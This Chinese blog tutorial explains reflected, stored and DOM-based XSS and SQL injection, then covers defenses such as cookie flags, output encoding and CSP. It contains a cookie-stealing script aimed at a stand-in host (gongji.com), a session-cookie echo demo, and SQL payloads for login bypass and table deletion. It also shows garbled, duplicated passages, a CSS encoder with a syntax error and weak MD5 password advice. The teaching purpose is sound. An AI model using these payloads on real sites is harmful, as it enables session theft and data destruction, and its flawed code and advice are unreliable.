






# [web安全之XSS攻击原理及防范](https://www.cnblogs.com/tugenhua0707/p/10909284.html)

**阅读目录**

- [一：什么是XSS攻击？](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe0)

- [二：反射型XSS](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe1)

- [三：存储型XSS](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe2)

- [四：DOM-based型XSS](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe3)

- [五：SQL注入](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe4)

- 六：XSS如何防范？

  [1. cookie安全策略](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe5)

  [2. X-XSS-Protection设置](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe6)

  [3. XSS防御HTML编码](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe7)

  [4. XSS 防御HTML Attribute编码](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe8)

  [5. XSS防御之javascript编码](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe9)

  [6. XSS 防御之 URL 编码](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe10)

  [7. XSS 防御之 CSS 编码](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe11)

  [8. 开启CSP网页安全政策防止XSS攻击](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe12)

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

一：什么是XSS攻击？

**XSS 即（Cross Site Scripting）中文名称为：跨站脚本攻击。**XSS的重点不在于跨站点，而在于脚本的执行。那么XSS的原理是：
恶意攻击者在web页面中会插入一些恶意的script代码。当用户浏览该页面的时候，那么嵌入到web页面中script代码会执行，因此会达到恶意攻击用户的目的。那么XSS攻击最主要有如下分类：反射型、存储型、及 DOM-based型。 反射性和DOM-baseed型可以归类为非持久性XSS攻击。存储型可以归类为持久性XSS攻击。

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

二：反射型XSS

反射性XSS的原理是：反射性xss一般指攻击者通过特定的方式来诱惑受害者去访问一个包含恶意代码的URL。当受害者点击恶意链接url的时候，恶意代码会直接在受害者的主机上的浏览器执行。

反射性XSS又可以叫做非持久性XSS。为什么叫反射型XSS呢？那是因为这种攻击方式的注入代码是从目标服务器通过错误信息，搜索结果等方式反射回来的，而为什么又叫非持久性XSS呢？那是因为这种攻击方式只有一次性。

比如：攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接的时候，注入脚本被传输到目标服务器上，然后服务器将注入脚本 "反射"到受害者的浏览器上，从而浏览器就执行了该脚本。

因此反射型XSS的攻击步骤如下：

\1. 攻击者在url后面的参数中加入恶意攻击代码。
\2. 当用户打开带有恶意代码的URL的时候，网站服务端将恶意代码从URL中取出，拼接在html中并且返回给浏览器端。
\3. 用户浏览器接收到响应后执行解析，其中的恶意代码也会被执行到。
\4. 攻击者通过恶意代码来窃取到用户数据并发送到攻击者的网站。攻击者会获取到比如cookie等信息，然后使用该信息来冒充合法用户
的行为，调用目标网站接口执行攻击等操作。

常见的反射性XSS有哪些？

常见的是：**恶意链接。**

比如我现在做一个demo。在本地启动一个简单的服务器，然后在页面上点击一个链接后，比如如下代码：html代码如下：

[](javascript:void(0);)

```
<!DOCTYPE html>
<html>
<head>
  <meta charset=utf-8>
  <meta name="referrer" content="never">
  <title>csrf攻击</title>
</head>
<body>
  <div>
    <a href="http://localhost:3001/xss">xxs 攻击</a>
    <a href="http://localhost:3001/testcookie">testcookie 攻击</a>
  </div>
</body>
</html>
```

[](javascript:void(0);)

然后node中app.js 代码如下：

[](javascript:void(0);)

```
const Koa = require('koa');
const fs = require('fs');
const path = require('path');
const router = require('koa-router')();
const koaBody = require('koa-body');
const static = require('koa-static');

const app = new Koa();

router.get('/', (ctx, next) => {
  // 设置头类型, 如果不设置，会直接下载该页面
  ctx.type = 'html';
  // 读取文件
  const pathUrl = path.join(__dirname, '/static/index.html');
  ctx.body = fs.createReadStream(pathUrl);
  next();
});

router.get('/xss', (ctx, next) => {
  ctx.body = '<script>alert("反射型 XSS 攻击")</script>';
});
router.get('/testcookie', (ctx, next) => {
  console.log(ctx.cookies.get('connect.sid'));
  ctx.body = '<script>alert("'+ctx.cookies.get('connect.sid')+'")</script>';
  next();
});

app.use(static(path.join(__dirname)));

app.use(router.routes());
app.use(router.allowedMethods());

app.listen(3001, () => {
  console.log('server is listen in 3001');
});
```

[](javascript:void(0);)

如上代码，当用户点击xxs 攻击恶意链接时候，页面会跳转到 http://localhost:3001/xss 攻击者预先准备的页面，然后会返回攻击者准备的js脚本，该js脚本就在浏览器中执行了，如下所示：


当用户点击 testcookie 攻击 这个链接的时候，首先要保证页面上有cookie，比如我请求如下的cookie:



然后我们点击 testcookie 该链接，也会调用node中的 router.get('/testcookie', (ctx, next) => {}) 这个请求获取到cookie，如下所示：


如上我们就可以很容易通过xss攻击拿到对方的cookie信息了。

[github源码查看](https://github.com/tugenhua0707/web-security/tree/master/xss/反射性xss)

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

三：存储型XSS

**存储型XSS的原理是：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。**

比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是如下：<script>window.open("www.gongji.com?param="+document.cookie)</script> 如果我没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

**因此存储型XSS的攻击步骤如下：**

\1. 攻击者将恶意代码提交到目标网站数据库中。
\2. 用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到html中返回给浏览器中。
\3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
\4. 那么恶意代码执行后，就能获取到用户数据，比如上面的cookie等信息，那么把该cookie发送到攻击者网站中，那么攻击者拿到该
cookie然后会冒充该用户的行为，调用目标网站接口等违法操作。

**如何防范？**
\1. 后端需要对提交的数据进行过滤。
\2. 前端也可以做一下处理方式，比如对script标签，将特殊字符替换成HTML编码这些等。

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

四：DOM-based型XSS

我们客户端的js可以对页面dom节点进行动态的操作，比如插入、修改页面的内容。比如说客户端从URL中提取数据并且在本地执行、如果用户在客户端输入的数据包含了恶意的js脚本的话，但是这些脚本又没有做任何过滤处理的话，那么我们的应用程序就有可能受到DOM-based XSS的攻击。因此DOM型XSS的攻击步骤如下：

\1. 攻击者构造出特殊的URL、在其中可能包含恶意代码。
\2. 用户打开带有恶意代码的URL。
\3. 用户浏览器收到响应后解析执行。前端使用js取出url中的恶意代码并执行。
\4. 执行时，恶意代码窃取用户数据并发送到攻击者的网站中，那么攻击者网站拿到这些数据去冒充用户的行为操作。调用目标网站接口
执行攻击者一些操作。

**DOM XSS 是基于文档对象模型的XSS。一般有如下DOM操作：**
\1. 使用document.write直接输出数据。
\2. 使用innerHTML直接输出数据。
\3. 使用location、location.href、location.replace、iframe.src、document.referer、window.name等这些。
比如如下demo:

```
<script>
  document.body.innerHTML = "<a href='"+url+"'>"+url+"</a>";
</script>
```

假如对于变量url的值是：javascript:alert('dom-xss'); 类似这样的，那么就会收到xss的攻击了。因此对于DOM XSS主要是由于本地客户端获取的DOM数据在本地执行导致的。因此我们需要对HTML进行编码，对JS进行编码来防止这些问题产生。具体如何编码可以请看我下面的 XSS 如何防范那个地方即可。

我们接下来看看demo代码吧：

**1. 使用document.write直接输出导致浏览器解析恶意代码**
代码如下：

[](javascript:void(0);)

```
<!DOCTYPE html>
<html>
<head>
  <meta charset=utf-8>
  <meta name="referrer" content="never">
  <title></title>
</head>
<body>
  <script type="text/javascript">
    var s = location.search;            // 返回URL中的查询部分（？之后的内容）
    // 为了方便演示，我们假如url是 如下这样的
    // http://127.0.0.1/xsstest.html?url=javascript:alert('xsstest'); 
    // 然后我们的是 s 的值就为如下：
    s = "?url=javascript:alert('xsstest')";
    s = s.substring(1, s.length);       // 返回整个查询内容
    var url = "";                       // 定义变量url
    if (s.indexOf("url=") > -1) {       // 判断URL是否为空 
      var pos = s.indexOf("url=") + 4;  // 过滤掉"url="字符
      url = s.substring(pos, s.length);  // 得到地址栏里的url参数
    } else {
      url = "url参数为空";
    }
    document.write('url: <a href="' + url + '">"' + url + '"</a>'); 
  </script>
</body>
</html>
```

[](javascript:void(0);)

页面渲染完成后，点击弹窗如下所示：



**2. 使用innerHTML直接输出导致浏览器解析恶意代码**
代码如下：

[](javascript:void(0);)

```
<!DOCTYPE html>
<html>
<head>
  <meta charset=utf-8>
  <meta name="referrer" content="never">
  <title></title>
</head>
<body>
  <script type="text/javascript">
    var s = location.search;            // 返回URL中的查询部分（？之后的内容）
    // 为了方便演示，我们假如url是 如下这样的
    // http://127.0.0.1/xsstest.html?url=javascript:alert('xsstest'); 
    // 然后我们的是 s 的值就为如下：
    s = "?url=javascript:alert('xsstest')";
    s = s.substring(1, s.length);       // 返回整个查询内容
    var url = "";                       // 定义变量url
    if (s.indexOf("url=") > -1) {       // 判断URL是否为空 
      var pos = s.indexOf("url=") + 4;  // 过滤掉"url="字符
      url = s.substring(pos, s.length);  // 得到地址栏里的url参数
    } else {
      url = "url参数为空";
    }
  </script>
  <div id='test'><a href=""></a></div>
  <script type="text/javascript">
      document.getElementById("test").innerHTML = '我的url是: <a href="' + url + '">"' + url + '"</a>';
  </script>
</body>
</html>
```

[](javascript:void(0);)

点击一样也会弹窗窗口的。也会一样执行xss攻击的。

**3. 使用location/location.href/location.replace/iframe.src 造成的XSS**

如下代码：

[](javascript:void(0);)

```
<!DOCTYPE html>
<html>
<head>
  <meta charset=utf-8>
  <meta name="referrer" content="never">
  <title></title>
</head>
<body>
  <script type="text/javascript">
    var s = location.search;            // 返回URL中的查询部分（？之后的内容）
    // 为了方便演示，我们假如url是 如下这样的
    // http://127.0.0.1/xsstest.html?url=javascript:alert('xsstest'); 
    // 然后我们的是 s 的值就为如下：
    s = "?url=javascript:alert('xsstest')";
    s = s.substring(1, s.length);       // 返回整个查询内容
    var url = "";                       // 定义变量url
    if (s.indexOf("url=") > -1) {       // 判断URL是否为空 
      var pos = s.indexOf("url=") + 4;  // 过滤掉"url="字符
      url = s.substring(pos, s.length);  // 得到地址栏里的url参数
    } else {
      url = "url参数为空";
    }
  </script>
  <div id='test'><a href=""></a></div>
  <script type="text/javascript">
    location.href = url;
  </script>
</body>
</html>
```

[](javascript:void(0);)

刷新下页面，也会弹出窗口执行 xss攻击了。

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

五：SQL注入

SQL注入是通过客户端的输入把SQL命令注入到一个应用的数据库中，从而执行恶意的SQL语句。
什么意思呢？我们来打个比方：我们有一个登录框，需要输入用户名和密码对吧，然后我们的密码输入 'or '123' = '123 这样的。
我们在查询用户名和密码是否正确的时候，本来执行的sql语句是：select * from user where username = '' and password = ''. 这样的sql语句，现在我们输入密码是如上这样的，然后我们会通过参数进行拼接，拼接后的sql语句就是：
**select \* from user where username = '' and password = ' ' or '123' = '123 ';** 这样的了，那么会有一个or语句，只要这两个有一个是正确的话，就条件成立，因此 123 = 123 是成立的。因此验证就会被跳过。这只是一个简单的列子，比如还有密码比如是这样的：'; drop table user;, 这样的话，那么sql命令就变成了：
**select \* from user where username = '' and password = ''; drop table user;'** , 那么这个时候我们会把user表直接删除了。

sql被攻击的原因是：sql语句伪造参数，然后对参数进行拼接后形成xss攻击的sql语句。最后会导致数据库被攻击了。

**防范的方法：**
\1. 我们可以使用预编译语句(PreparedStatement，这样的话即使我们使用sql语句伪造成参数，到了服务端的时候，这个伪造sql语句的参数也只是简单的字符，并不能起到攻击的作用。
\2. 数据库中密码不应明文存储的，可以对密码使用md5进行加密，为了加大破解成本，所以可以采用加盐的方式。

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

cookie安全策略

在服务器端设置cookie的时候设置 http-only, 这样就可以防止用户通过JS获取cookie。对cookie的读写或发送一般有如下字段进行设置：

**http-only:** 只允许http或https请求读取cookie、JS代码是无法读取cookie的(document.cookie会显示http-only的cookie项被自动过滤掉)。发送请求时自动发送cookie.
**secure-only:** 只允许https请求读取，发送请求时自动发送cookie。
**host-only:** 只允许主机域名与domain设置完成一致的网站才能访问该cookie。

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

X-XSS-Protection设置

目前该属性被所有的主流浏览器默认开启XSS保护。该参数是设置在响应头中目的是用来防范XSS攻击的。它有如下几种配置：
值有如下几种：默认为1.
0：禁用XSS保护。
1：启用XSS保护。
1;mode=block; 启用xss保护，并且在检查到XSS攻击是，停止渲染页面。

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

XSS防御HTML编码

我们为什么要防御HTML编码呢？比如如下html代码：<div>𝑐𝑜𝑛𝑡𝑒𝑛𝑡</𝑑𝑖𝑣>,在𝑑𝑖𝑣标签中存在一个输出变量content</div>,在div标签中存在一个输出变量{content}. 那么浏览器在解析的过程中，首先是html解析，当解析到div标签时，再解析 𝑐𝑜𝑛𝑡𝑒𝑛𝑡的内容，然后会将页面显示出来。那假如该content的内容，然后会将页面显示出来。那假如该{content} 的值是 <script>alert('XSS攻击')</script> 这样的呢？因此该script脚本就会解析并且执行了，从而达到XSS的攻击目标。
因此我们需要将不可信数据放入到html标签内(比如div、span等)的时候需要进行html编码。
编码规则：将 & < > " ' / 转义为实体字符。如下基本转义代码：

[](javascript:void(0);)

```
// 使用正则表达式实现html编码
    function htmlEncodeByRegExp(str) {
      var s = '';
      if (str.length === 0) {
        return s;
      }
      return (s + str)
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/ /g, "&nbsp;")
        .replace(/\'/g, "&#39")
        .replace(/\"/g, "&quot;")
        .replace(/\//g, '&#x2F;');
    }
    // 使用正则表达式实现html解码
    function htmlDecodeByRegExp(str) {
      var s = '';
      if (str.length === 0) {
        return s;
      }
      return (s + str)
        .replace(/&amp;/g, "&")
        .replace(/&lt;/g, "<")
        .replace(/&gt;/g, ">")
        .replace(/&nbsp;/g, " ")
        .replace(/&#39/g, "\'")
        .replace(/&quot;/g, "\"")
        .replace(/&#x2F;/g, "\/");
    }
```

[](javascript:void(0);)

实现demo如下：

[](javascript:void(0);)

```
<!DOCTYPE html>
    <html>
    <head>
      <meta charset=utf-8>
      <meta name="referrer" content="never">
      <title></title>
    </head>
    <body>
      <script type="text/javascript">
        // 使用正则表达式实现html编码
        function htmlEncodeByRegExp(str) {
          var s = '';
          if (str.length === 0) {
            return s;
          }
          return (s + str)
            .replace(/&/g, "&amp;")
            .replace(/</g, "&lt;")
            .replace(/>/g, "&gt;")
            .replace(/ /g, "&nbsp;")
            .replace(/\'/g, "&#39")
            .replace(/\"/g, "&quot;")
            .replace(/\//g, '&#x2F;');
        }
        // 使用正则表达式实现html解码
        function htmlDecodeByRegExp(str) {
          var s = '';
          if (str.length === 0) {
            return s;
          }
          return (s + str)
            .replace(/&amp;/g, "&")
            .replace(/&lt;/g, "<")
            .replace(/&gt;/g, ">")
            .replace(/&nbsp;/g, " ")
            .replace(/&#39/g, "\'")
            .replace(/&quot;/g, "\"")
            .replace(/&#x2F;/g, "\/");
        }

        // 测试代码：
        var html = '<br>aaaaaa<p>xxxxxx</p>';
        var encodeHtml = htmlEncodeByRegExp(html);
        // 输出：使用正则表达式对html编码：&lt;br&gt;aaaaaa&lt;p&gt;xxxxxx&lt;&#x2F;p&gt;
        console.log("使用正则表达式对html编码：" + encodeHtml);
        var decodeHtml = htmlDecodeByRegExp(encodeHtml);

        // 输出：使用正则表达式对html解码：<br>aaaaaa<p>xxxxxx</p>
        console.log("使用正则表达式对html解码：" + decodeHtml);

      </script>
    </body>
    </html>
```

[](javascript:void(0);)

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

XSS 防御HTML Attribute编码

和HTML编码一样，html中的属性也要进行编码，比如 <input name="𝑛𝑎𝑚𝑒"/>这样的，𝑛𝑎𝑚𝑒是𝑖𝑛𝑝𝑢𝑡的属性，因此在ℎ𝑡𝑚𝑙解析时，会对𝑛𝑎𝑚𝑒属性进行编码，因为假如name"/>这样的，name是input的属性，因此在html解析时，会对name属性进行编码，因为假如{name} 的值为：" " onclick="alert('属性XSS')" " " 这样的，也就是说input变成这样的了，<input name=" " onclick="alert('属性XSS')" " "></input>，input属性name被插入onclick事件了，因此也需要针对这种常规的html属性，都需要对其进行HTML属性编码。
因此我们需要将不可信数据放入html属性时(不含src、href、style 和 事件处理函数(onclick, onmouseover等))。需要进行HTML Attribute 编码。
编码规则：除了字母、数字、字符以外，使用 &#x;16进制格式来转义ASCII值小于256所有的字符。

因此编码代码如下：

[](javascript:void(0);)

```
function encodeForHTMLAttibute(str) {
      let encoded = '';
      for(let i = 0; i < str.length; i++) {
        let ch = hex = str[i];
        if (!/[A-Za-z0-9]/.test(str[i]) && str.charCodeAt(i) < 256) {
          hex = '&#x' + ch.charCodeAt(0).toString(16) + ';';
        }
        encoded += hex;
      }
      return encoded;
   };
```

[](javascript:void(0);)

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

XSS防御之javascript编码

在上面的 XSS 防御HTML Attribute编码中我们是可以防御XSS攻击，但是它只能防御的是HTML通用属性，并不是全部属性，在html中还存在很多支持协议解析的html属性，比如 onclick, onerror, href, src 等这些，类似这些属性我们是无法通过HTML编码来防范XSS攻击的。因为浏览器会先解析html编码的字符，将其转换为该属性的值，但是该属性本身支持JS代码执行，因此游览器在HTML解码后，对该属性的值进行JS解析，因此会执行响应的代码。

比如如下代码：<a href="javascript:alert('href xss')" target="_blank">href xss</a> 是可以点击的。 如果我们对该进行html属性编码一下，还是可以点击的，
如代码：<a href="javascript&#x3a;alert&#x28;&#x27;href&#x20;xss&#x20;HTML编码无效&#x27;&#x29;" target="_blank">href xss HTML属性编码无效</a> 页面还是可以点击的。如下图所示：



如下对href属性编码：

[](javascript:void(0);)

```
var str = "javascript:alert('href xss')";
// 使用正则表达式实现html编码
function encodeForHTMLAttibute(str) {
  let encoded = '';
  for(let i = 0; i < str.length; i++) {
    let ch = hex = str[i];
    if (!/[A-Za-z0-9]/.test(str[i]) && str.charCodeAt(i) < 256) {
      hex = '&#x' + ch.charCodeAt(0).toString(16) + ';';
    }
    encoded += hex;
  }
  return encoded;
};
console.log(encodeForHTMLAttibute(str)); // javascript&#x3a;alert&#x28;&#x27;href&#x20;xss&#x27;&#x29;
```

[](javascript:void(0);)

那么现在假如我们对alert('href xss')进行JavaScript编码，结果又会如何？（JavaScript编码将字符编码成\x+16进制的形式，对款字节编码成Unicode）

**注意：XSS防御之javascript编码代码如下：**

[](javascript:void(0);)

```
function encodeForJavascript(str) {
  let encoded = '';
  for(let i = 0; i < str.length; i++) {
    let cc = hex = str[i];
    if (!/[A-Za-z0-9]/.test(str[i]) && str.charCodeAt(i) < 256) {
      hex = '\\x' + cc.charCodeAt().toString(16);
    }
    encoded += hex;
  }
  return encoded;
};
```

[](javascript:void(0);)

如下demo演示：

[](javascript:void(0);)

```
<!DOCTYPE html>
<html>
<head>
  <meta charset=utf-8>
  <meta name="referrer" content="never">
  <title></title>
</head>
<body>
  <div>
    <a href="javascript:alert\x28\x27href\x20xss\x27\x29" target="_blank">Href XSS JavaScript编码</a>
  </div>
  <script type="text/javascript">
    var str = "alert('href xss')";
    function encodeForJavascript(str) {
      let encoded = '';
      for(let i = 0; i < str.length; i++) {
        let cc = hex = str[i];
        if (!/[A-Za-z0-9]/.test(str[i]) && str.charCodeAt(i) < 256) {
          hex = '\\x' + cc.charCodeAt().toString(16);
        }
        encoded += hex;
      }
      return encoded;
    };
    console.log(encodeForJavascript(str)); // alert\x28\x27href\x20xss\x27\x29
  </script>
</body>
</html>
```

[](javascript:void(0);)

现在我们再来点击上面的a链接是不会有任何效果的。因此 XSS执行失败; 当然对onclick 事件等其他的也是一样的要进行编码。我们也可以继续看下：onclick属性XSS

**onclick属性XSS**

比如现在我们来看一下on事件属性：<div id="test" onclick="testFunc(𝑣𝑎𝑙𝑢𝑒)">𝑥𝑥𝑠测试</𝑑𝑖𝑣>（此处的value)">xxs测试</div>（此处的value往往一般都是后台模板替换的变量）<div id="test" onclick="testFunc('$value')">xxs测试</div>

当$value的值 hello world'),alert('onclick xss 时，就会触发XSS攻击；代码就会变成如下：

```
<div id="test" onclick="testFunc('hello world'),alert('onclick xss')" >xxs测试</div>
```

因此demo如下：

[](javascript:void(0);)

```
<!DOCTYPE html>
<html>
<head>
  <meta charset=utf-8>
  <meta name="referrer" content="never">
  <title></title>
</head>
<body>
  <div id="test" onclick="testFunc('hello world'),alert('onclick xss')">xxs测试</div>
  <script type="text/javascript">
    function testFunc(xx) {
      
    }
  </script>
</body>
</html>
```

[](javascript:void(0);)

当我点击xss测试的时候，就会变成如下所示：



如果我们使用html编码是不行的，对$value进行HTML编码, 我们可以看看如下demo所示：

[](javascript:void(0);)

```
<!DOCTYPE html>
<html>
<head>
  <meta charset=utf-8>
  <meta name="referrer" content="never">
  <title></title>
</head>
<body>
  <div id="test" onclick="testFunc('hello&#x20;world&#x27;&#x29;&#x2c;alert&#x28;&#x27;onclick&#x20;xss')">xxs测试</div>
  <script type="text/javascript">
    function testFunc() {}
    
    var str = "hello world'),alert('onclick xss";
    // 使用正则表达式实现html编码
    function encodeForHTMLAttibute(str) {
      let encoded = '';
      for(let i = 0; i < str.length; i++) {
        let ch = hex = str[i];
        if (!/[A-Za-z0-9]/.test(str[i]) && str.charCodeAt(i) < 256) {
          hex = '&#x' + ch.charCodeAt(0).toString(16) + ';';
        }
        encoded += hex;
      }
      return encoded;
    };
    console.log(encodeForHTMLAttibute(str)); 
    // hello&#x20;world&#x27;&#x29;&#x2c;alert&#x28;&#x27;onclick&#x20;xss
  </script>
</body>
</html>
```

[](javascript:void(0);)

如上代码，我们继续点击xxx测试的时候，还是可以弹窗的。

现在如果我们继续将$value进行JavaScript编码：显示正常，不存在XSS。 如下代码所示：

[](javascript:void(0);)

```
<!DOCTYPE html>
<html>
<head>
  <meta charset=utf-8>
  <meta name="referrer" content="never">
  <title></title>
</head>
<body>
  <div id="test" onclick="testFunc('hello\x20world\x27\x29\x2calert\x28\x27onclick\x20xss')">xxs测试</div>
  <script type="text/javascript">
    function testFunc() {}
    
    var str = "hello world'),alert('onclick xss";
    // 使用正则表达式实现html编码
    function encodeForJavascript(str) {
      let encoded = '';
      for(let i = 0; i < str.length; i++) {
        let cc = hex = str[i];
        if (!/[A-Za-z0-9]/.test(str[i]) && str.charCodeAt(i) < 256) {
          hex = '\\x' + cc.charCodeAt().toString(16);
        }
        encoded += hex;
      }
      return encoded;
    };
    console.log(encodeForJavascript(str)); 
    // hello\x20world\x27\x29\x2calert\x28\x27onclick\x20xss
  </script>
</body>
</html>
```

[](javascript:void(0);)

我们继续点击就没有任何反应了，大家自己可以试试下。因此就不会存在xss攻击了。

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

XSS 防御之 URL 编码

作用范围：将不可信数据作为 URL 参数值时需要对参数进行 URL 编码
编码规则：将参数值进行 encodeURIComponent 编码

编码代码如下：

```
function encodeForURL(str){
  return encodeURIComponent(str);
};
```

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

XSS 防御之 CSS 编码

作用范围：将不可信数据作为 CSS 时进行 CSS 编码
比如：通过css构造（background-img:url\expression\link-href@import）

```
<div style="background-image: url(javascript:alert('xss'));"></div>
<style>body{background-image: url("javascript:alert('xss')");}</style>
```

编码规则：除了字母数字字符以外，使用\XXXXXX格式来转义ASCII值小于256的所有字符。 编码代码如下：

[](javascript:void(0);)

```
function encodeForCSS (attr, str){
  let encoded = '';
  for (let i = 0; i < str.length; i++) {
    let ch = str.charAt(i);
    if (!ch.match(/[a-zA-Z0-9]/) {
      let hex = str.charCodeAt(i).toString(16);
      let pad = '000000'.substr((hex.length));
      encoded += '\\' + pad + hex;
    } else {
      encoded += ch;
    }
  }
  return encoded;
};
```

[](javascript:void(0);)

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

开启CSP网页安全政策防止XSS攻击

Content-Security-Policy 中文的意思是 网页安全政策，

CSP是网页安全政策(Content Security Policy)的缩写。主要用来防止XSS攻击。是一种由开发者定义的安全性政策申明，通过CSP所约束的责任指定可信的内容来源，通过 Content-Security-Policy 网页的开发者可以控制整个页面中 外部资源 的加载和执行。
比如可以控制哪些 域名下的静态资源可以被页面加载，哪些不能被加载。这样就可以很大程度的防范了 来自 跨站(域名不同) 的脚本攻击。

如何使用呢？

我们只需要在meta属性中设置下即可：如下代码：

```
<meta http-equiv="Content-Security-Policy" content="">
```

比如如下的列子：

```
<meta http-equiv="Content-Security-Policy" content="
default-src http: https:  *.xxx.com 'self' 'unsafe-inline' ;
style-src 'self' 'unsafe-inline' *.yyy.com;
script-src 'self' 'unsafe-inline' 'unsafe-eval' ;
">
```

默认设置（default-src）：信任 http ,https协议资源，信任当前域名资源，信任符合*.xxx.com的域名资源CSS设置（style-src）：信任当前域名资源，允许内嵌的CSS资源，信任来自*.yyy.com下的CSS资源。
JS设置（script-src）：信任当前域名资源，允许内嵌的JS执行，允许将字符串当作代码执行

有如下类别

default-src 给下面所有的规则设定一个默认值
script-src 外部脚本
style-src 样式表
img-src 图像
media-src 媒体文件（音频和视频）
font-src 字体文件
object-src 插件（比如 Flash）
child-src 框架
